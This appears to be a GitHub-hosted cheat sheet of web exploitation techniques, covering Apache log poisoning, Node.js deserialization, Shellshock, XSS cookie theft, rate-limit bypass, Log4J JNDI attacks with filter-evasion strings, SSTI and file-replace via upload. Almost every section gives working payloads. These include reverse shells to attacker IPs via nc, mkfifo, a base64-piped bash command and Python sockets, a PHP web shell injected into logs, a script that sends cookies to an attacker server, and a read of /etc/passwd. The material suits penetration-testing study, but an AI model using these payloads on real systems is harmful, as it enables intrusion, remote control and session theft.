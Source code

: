 # Exploitations techniques

## Summary
- [Log poisoning on Apache server](#log-poisoning-on-apache-server)
- [Node.js deserialization](#nodejs-deserialization)
- [Exploiting shellshock](#exploiting-shellshock)
- [Steal cookies with XSS](#steal-cookies-with-xss)
- [Bypass rate-limit filter](#bypass-rate-limit-filter)
- [Log4J exploitation](#log4j-exploitation)
  - [Verify the vulnerability](#verify-the-vulnerability)
  - [Exploit 1](#exploit-1)
  - [Exploit 2](#exploit-2)
  - [JNDI payload bypass](#jndi-payload-bypass)
- [Exploiting SSTI](#exploiting-ssti)
  - [Getting RCE](#getting-rce)
- [File replace with file upload vulnerability](#file-replace-with-file-upload-vulnerability)

## Log poisoning on Apache server
```
confirm the path of log files (apache2 - /var/log/apache2/access.log
intercept request of the web page that is vulnerable to lfi
add { <?php passthru($_GET['cmd']); ?> } in user agent
								or
	  add <?php file_put_contents('reverse.php', file_get_contents('[url+reverse.php]')); ?> in user agent
	  							or
	  use exploit/multi/script/web_delivery on metasploit to craft a simple payload
request the url to read the log file and include "cmd" parameter to execute commands
execute wget command to download php reverse shell from local machine
execute the php reverse shell while the listener is up
get the reverse shell
```
## Node.js deserialization
```
use nodejsshell.py to create a payload
		:: {"rce":"_$$ND_FUNC$$_function (){ [PUT THE PAYLOAD HERE!!!!]}()"}
intercept the vulnerable website page with burpsuite
encode the payload created into base64
replace the encoded payload with the cookies in the intercepted website page in burpsuite
set up a listener
	
{"email":"test@test.com","rce":"_$$ND_FUNC$$_function(){ require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.0.231 4444 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

## Exploiting Shellshock
```
find the attack vector for shellshock exploit to be successful e.g --> cgi-bin script
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" "http://ip/cgi-bin/test.cgi" 
execute reverse shell command to get reverse shell
```

## Steal cookies with XSS
```
start a php server on local machine
		:: php -S local-ip:port
paste below code on the page where the vulnerability is found
		:: <svg onload='var x = document.createElement("IFRAME");x.setAttribute("src", "http://10.4.64.135:8080/cookie?"+document.cookie);document.body.appendChild(x);''/>
```

## Bypass rate-limit filter
***Add below headers to the HTTP request***
```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Host: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
```
***Use burpsuite or wfuzz to bruteforce POST HTTP data***
```
```wfuzz -c -z file,numbers.txt -H "X-Originating-IP: 127.0.0.1" -H "X-Forwarded-For: 127.0.0.1" -H "X-Forwarded-For: 127.0.0.1" -H "X-Remote-Addr: 127.0.0.1" -H "X-Client-IP: 127.0.0.1" -H "X-Host: 127.0.0.1" -H "X-Forwarded-Host: 127.0.0.1" -d "number=FUZZ" --hw 81 http://example.com:80/
```

## Log4J exploitation
### Verify the vulnerability
```
setup a listener
nc -lvnp 4444	
find a location where you can supply JNDI syntax e.g -- url parameter & http headers
curl 'http://example.com?foo=$\{jndi:ldap://10.4.64.135:4444\}'
the server will then try to connect to the ip address on port 4444 if there is a log4j vulnerability
```

### Exploit 1
```
starts a ldap server
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS/#Exploit"
create a java exploit code as follow and save it as Exploit.java
public class Exploit {
				static {
					try {
						java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.4.64.135 4444");
					} catch (Exception e) {
						e.printStackTrace();
					}
				}
		   }
compile Exploit.java with 'javac Exploit.java'
start a listener on port 4444
host the payload on a http.server
finally trigger the exploit by firing off the JNDI syntax
curl 'http://example.com?foo=$\{jndi:ldap://10.4.64.135:1389/Exploit\}'
curl http://example.com/ -H 'X-Api-Version: ${jndi:ldap://10.4.64.135:1389/Exploit}'
the attack sequence is as follow
once the JNDI syntax is executed, it first connects to ldap server which will redirect to a http server
the http server will host a java payload with contains a reverse shell script
the vulnerable machine will execute the java payload and that will result us a reverse shell
```

### Exploit 2
```
run JNDI-Exploit-Kit
java -jar target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L "10.4.64.135:1389" -C "echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxMC40LjY0LjEzNSA5OTk5ID4vdG1wL2Y= | base64 -d | bash"
set up a listener accordingly
trigger the exploit by firing off the JNDI syntax with the URL provided by JNDI-Exploit-Kit
curl http://example.com/ -H 'X-Api-Version: ${jndi:ldap://10.4.64.135:1389/vct1ie}'
curl 'http://example.com?foo=$\{jndi:ldap://10.4.64.135:1389/vctlie}'
```

### JNDI payload bypass
```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}

${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}

${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}

${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
this uses RMI instead of LDAP

${${::-j}ndi:rmi://attackerendpoint.com/}
this uses RMI instead of LDAP
```

## Exploiting SSTI
```
http://example.com/404.page{{7+7}}
if the request is successful, the result of the addition will be displayed

http://example.com/404.page{{request|attr('application')|attr( request|attr('args')|attr('get')('us')*2 + "globals" + request|attr('args')|attr('get')('us')*2 ) |attr( request|attr('args')|attr('get')('us')*2 + 'getitem' + request|attr('args')|attr('get')('us')*2 )( request|attr('args')|attr('get')('us')*2 + 'builtins' + request|attr('args')|attr('get')('us')*2) |attr( request|attr('args')|attr('get')('us')*2 + 'getitem' + request|attr('args')|attr('get')('us')*2)(request|attr('args')|attr('get')('us')*2 + 'import' + request|attr('args')|attr('get')('us')*2)('os')|attr('popen')(request|attr('args')|attr('get')('c'))|attr('read')()}}?us=_&c=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$YOUR_IP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
this will give us a reverse shell on port 9999
```

### Getting RCE
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("ping 10.10.1.10")}
```

## File replace with file upload vulnerability
```
example.com has a file upload functionality where we can upload any file but we cant trigger any kind of that files
assume we know the application has enabled debugger which means that the application will update its sources to any changes
the application's config file is views.py in /app/app directory on the server
customized the views.py and upload it, then intercept the request
in the intercepted request, change the file name to /app/app/views.py (absolute path so that the application will not ignore it) because we want to replace the original views.py in /app/app directory on the server instead of uploading the file to /uploads directory on the server
```
